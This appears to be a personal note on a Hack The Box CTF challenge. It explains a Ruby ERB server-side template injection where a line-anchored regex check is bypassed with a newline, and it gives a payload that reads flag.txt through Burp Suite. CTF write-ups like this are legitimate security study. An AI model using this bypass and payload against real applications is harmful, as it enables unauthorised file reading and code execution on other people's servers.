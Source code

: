 
2024-09-21 18:51

Source: #htb 

Source Code Snippet - 
```ruby
if params[:neon] =~ /^[0-9a-z ]+$/i  
	@neon = ERB.new(params[:neon]).result(binding)  
else  
	@neon = "Malicious Input Detected"  
end
```

> And also, there is interesting situation. Even if you can use `%` in request , you can't use it in browser. you still will get “**Malicious Input Detected**” message.
> 
> But when you use it in **Burp suite** :
> You will see that we get “**Invalid query parameters: invalid %-encoding (a %)**” message.  
> It means something is wrong in our encoding but it still allows to send `%`

We send the request in burp w payload (url encode this)-  
```ruby
a  
<%= File.open('flag.txt').read %>
```
Yes, I passed to new line . Why ?
And If we want to run this code ,

```
<%= File.open('flag.txt').read %>
```

we have to pass new line like this :

```
<h1 class="glow"><%= @neon  
<%= File.open('flag.txt').read %>%></h1>
```

And we cant leave `@neon` empty , that's why I write it like :

```
<h1 class="glow"><%= a  
<%= File.open('flag.txt').read %>%></h1>
```

We need to use new line, but we cant use /n




### References

SSTI for apps written in Ruby  https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby---retrieve-etcpasswd

https://medium.com/@nurlanisazade/hack-the-box-neonify-walkthrough-guided-mode-cbd8d71962f9